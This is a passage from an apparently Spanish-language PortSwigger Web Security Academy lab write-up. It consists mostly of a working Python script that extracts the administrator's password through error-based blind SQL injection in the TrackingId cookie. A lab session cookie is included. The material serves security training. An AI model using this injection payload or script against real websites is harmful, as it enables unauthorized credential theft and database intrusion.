 El código de estado será 500 solo para el valor ```20```

<img src="/img/articulos/sqli-portswigger/48.png" alt="">

Creo un nuevo script en python que dumpee la contraseña

```nulll
#!/usr/bin/python3
from pwn import *
import requests, string, signal, time, sys, pdb

def def_handler(sig, frame):
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales

characters = string.ascii_lowercase + string.digits
main_url = "https://0a58004903162da580414ea100fe00cd.web-security-academy.net/"

def MakeRequest():

    password = ""
    p1 = log.progress("Blind SQLi:")
    p2 = log.progress("Password:")

    for position in range(1, 21):

        for character in characters:

            cookies = {
                'TrackingId': "NEQKfeMP7dS3xYpf'||(select case when substr(password,%d,1)='%s' then to_char(1/0) else '' end from users where username='administrator')||'" % (position, character),
                'session': 'PmZjpcdziBGJBIQia08cMoUTkkAvosvU'
            }

            p1.status(cookies['TrackingId'])
            r = requests.get(main_url, cookies=cookies)

            if r.status_code == 500:
                password += character
                p2.status(password)
                break



if __name__ == '__main__':
    MakeRequest()
```
